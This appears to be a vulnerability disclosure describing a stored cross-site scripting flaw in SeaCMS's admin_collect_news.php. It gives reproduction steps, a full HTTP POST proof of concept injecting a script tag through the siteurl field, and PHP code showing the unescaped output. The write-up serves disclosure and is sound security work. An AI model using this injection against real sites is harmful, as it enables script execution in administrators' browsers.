 admin_collect_news.php storage xss

Visit admin_collect_news.php

Enter the following page

![image-20240821010940757](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821010940757.png)

Click to add collection items, then click Next

![image-20240821011038657](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011038657.png)

Enter the target site URL

`<script>alert(2)</script>`

![image-20240821011104414](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011104414.png)

Click to save the information and proceed to the next step of settings.

![](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011136585.png)

Success pop-up window

POC

```java
POST /p8qca/admin_collect_news.php?action=addrule HTTP/1.1
Host: seacms:8181
Content-Length: 335
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/admin_collect_news.php?action=addrule&id=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Connection: keep-alive

step=2&id=5&itemname=111&intodatabase=0&siteurl=%3Cscript%3Ealert%282%29%3C%2Fscript%3E&coding=gb2312&playfrom=seacms&downfrom=&autocls=0&classid=0&inithit=0&pageset=0&pageurl0=123123&pageurl1=&istart=1&iend=1&pageurl2=&Submit=%E4%BF%9D%E5%AD%98%E4%BF%A1%E6%81%AF%E5%B9%B6%E8%BF%9B%E5%85%A5%E4%B8%8B%E4%B8%80%E6%AD%A5%E8%AE%BE%E7%BD%AE
```



**code analysis**

```java
if($action=="addrule")
{
	if($step==2){
		if(empty($itemname))
		{
			ShowMsg("请填写采集名称！","-1");
			exit();
		}
		$removecode = implode('|',$removecode);
		$listconfig = "{seacms:listrule cid=\"$id\" tname=\"$itemname\" intodatabase=\"$intodatabase\" isupdate=\"$isupdate\" getherday=\"$getherday\" siteurl=\"$siteurl\" playfrom=\"$playfrom\" autocls=\"$autocls\" classid=\"$classid\" removecode=\"$removecode\" inithit=\"$inithit\" pageset=\"$pageset\" pageurl0=\"$pageurl0\" pageurl1=\"$pageurl1\" istart=\"$istart\" iend=\"$iend\" reverse=\"$reverse\"}";
		include(sea_ADMIN.'/templets/admin_collect_ruleadd2.htm');
		exit();
	}elseif($step==test){
		$listconfig = urldecode($listconfig);
		$listconfig.="
			{seacms:pageurl2}$pageurl2{/seacms:pageurl2}
			{seacms:lista}$lista{/seacms:lista}
			{seacms:listb}$listb{/seacms:listb}
			{seacms:mlinka}$mlinka{/seacms:mlinka}
			{seacms:mlinkb}$mlinkb{/seacms:mlinkb}
			{seacms:picmode}$picmode{/seacms:picmode}
			{seacms:pica}$pica{/seacms:pica}
			{seacms:picb}$picb{/seacms:picb}
			{seacms:pic_trim}$pic_trim{/seacms:pic_trim}
{/seacms:listrule}\r\n";
		$tmplistconfig = stripslashes($listconfig);
		$links=array();
		$links = Testlists($tmplistconfig,$coding,$sock);
		include(sea_ADMIN.'/templets/admin_collect_ruleadd2test.htm');
		exit();
```

我们可以控制$pageurl2的值，而且包含了/templets/admin_collect_ruleadd2test.htm文件，来到这个文件

```php
<form name="addruleform" id="addruleform" method="post" action="?action=addrule">
  <input type='hidden' name='step' value='test' />
  <input type="hidden" name="id" value="<?php echo $id;?>" />
  <input type="hidden" name="itemname" value="<?php echo $itemname;?>" />
  <input type="hidden" name="siteurl" value="<?php echo $siteurl;?>" />
  <input type="hidden" name="coding" value="<?php echo $coding;?>" />
  <input type="hidden" name="sock" value="<?php echo $sock;?>" />
  <input type="hidden" name="playfrom" value="<?php echo $playfrom;?>" />
  <input type="hidden" name="autocls" value="<?php echo $autocls;?>" />
  <input type="hidden" name="classid" value="<?php echo $classid;?>" />
  <input type="hidden" name="getherday" value="<?php echo $getherday;?>" />
  <input type='hidden' name="intodatabase" value="<?php echo $intodatabase;?>" />
  <input type='hidden' name="listconfig" value="<?php echo urlencode($listconfig);?>" />
  <table class="tb2" id="step2">
```

You can see that our $siteurl is output and stored in the database, resulting in stored xss
